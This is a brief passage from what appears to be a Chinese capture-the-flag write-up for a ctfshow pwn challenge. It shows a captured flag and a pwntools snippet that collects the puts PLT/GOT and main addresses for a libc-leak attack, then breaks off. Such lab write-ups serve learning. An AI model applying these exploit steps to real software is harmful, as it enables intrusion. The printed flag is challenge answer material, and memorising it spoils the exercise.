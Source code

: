 ![image-20241030204543996](../_media/image-20241030204543996.png)



然后就可ls cat flag

```
ctfshow{f6e86b0c-f1b4-45fb-9711-721785a54f62}
```





可以看到信息

```python
puts_plt = elf.plt['puts']      # plt表中的puts函数地址，为的就是溢出到返回函数那里可以执行puts
main_addr = elf.symbols['main'] # 找到main函数的地址
puts_got = elf.got['puts']      # got表中puts函数的地址
print(hex(puts_plt))
print(hex(main_addr))
print(hex(puts_got))
0x8048390
0x804862d
0x804a010
```

其实上述信息，ida里面可以看到：
